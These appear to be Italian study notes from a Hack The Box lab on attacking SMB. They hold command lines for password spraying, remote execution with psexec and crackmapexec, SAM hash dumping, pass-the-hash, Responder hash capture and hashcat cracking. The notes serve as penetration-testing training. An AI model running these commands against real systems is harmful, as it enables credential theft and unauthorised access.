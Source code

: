 `j4k1dibe@htb[/htb]$ ./enum4linux-ng.py 10.10.11.45 -A -C`

## Protocol Specific attacks

Se non e' abilitato una null session dobbiamo avere le credenziali. possiamo provare **brute forcing** e **Password Spray**.


### Password spray con crackmapexec
`j4k1dibe@htb[/htb]$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth`, se si vuole trovare altri login dopo averne trovato uno bisogna usare la flag **--continue-on-success**

## RCE

Se riusciamo ad avere delle credenziali possiamo riuscire a prendere una RCE tramite **PsExec**

`j4k1dibe@htb[/htb]$ impacket-psexec administrator:'Password123!'@10.10.110.17` RCE com Impacket-psexec

`j4k1dibe@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` rce con crackmapexec


## Enumerating logged-on users
`j4k1dibe@htb[/htb]$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`

## Extract hashes from SAM database
`j4k1dibe@htb[/htb]$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`

## Pass-The-Hash

Se riusciamo a prendere un hash NTLM di un utente e non riusciamo a craccarlo possiamo autenticarci su SMB tramite Pass-The-Hash.

`j4k1dibe@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`

## Forced Authentication Attacks

Possiamo abusare di SMB creando un falso erver SMB per catturare le **NetNTLM v1/v2 hash**

Per farlo dovremo usare il tool **Responder** e dovremo aspettare delle richieste al DNS locale.

`j4k1dibe@htb[/htb]$ responder -I <interface name>`

tutti gli hash intercettati stanno nella log directory: `/usr/share/responder/logs/`

Per crackare gli hash:

`j4k1dibe@htb[/htb]$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

